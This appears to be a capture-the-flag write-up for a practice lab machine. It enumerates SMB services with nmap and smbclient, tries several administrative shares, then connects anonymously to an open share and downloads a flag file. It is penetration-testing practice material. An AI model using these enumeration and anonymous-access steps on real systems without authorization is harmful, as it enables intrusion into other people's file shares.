 ---- 
## Initial Information

- Attacker IP = 10.129.241.49
- Victim IP = 10.129.240.253
----
## Recon

- Scan the victim machine using nmap -  found that they are running 3 services which

```shell
nmap 10.129.240.253

PORT    STATE SERVICE
135/tcp open  msrpc
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
```

found that they are running SMB (Server Message Block) on port 445 which ""microsoft-ds"" in the NMAP scan
this means that we can use smbmap to scan the system

- ran smbclient inorder to get the number and name of the shares without using a password - found 4 shares and their name 
```shell

smbclient -L 10.129.240.253 
Password for [WORKGROUP\root]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        WorkShares      Disk    
```

- Attempted to login to the different share  without a password 
	- Tried to connect to ADMIN$ but this failed as it requires a password
```shell
smbclient -L \\\\10.129.240.253\\ADMIN$
Password for [WORKGROUP\root]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        WorkShares      Disk      
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.129.240.253 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available

```
- Tried C$ but this failed 
```shell

smbclient -L \\\\10.129.240.253\\C$    
Password for [WORKGROUP\root]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        WorkShares      Disk      
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.129.240.253 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```
- Tried IPC$ this also failed 
```shell
smbclient -L \\\\10.129.240.253\\IPC$    
Password for [WORKGROUP\root]:

Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.129.240.253 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```
- Tried WorkShares this succeded
```shell
smbclient \\\\10.129.240.253\\WorkShares  
Password for [WORKGROUP\root]:
Try "help" to get a list of possible commands.
smb: \> 

```
- Got worknotes in Amys folder to start a webserver
- Got navigated to the James folder and found the flag
```shell
smb: \> cd James.P\
smb: \James.P\> ls
 
flag.txt                            A       32  Mon Mar 29 

smb: \James.P\> get flag.txt 

getting file \James.P\flag.txt of size 32 as flag.txt (0.4 KiloBytes/sec) (average 0.4 KiloBytes/sec)

```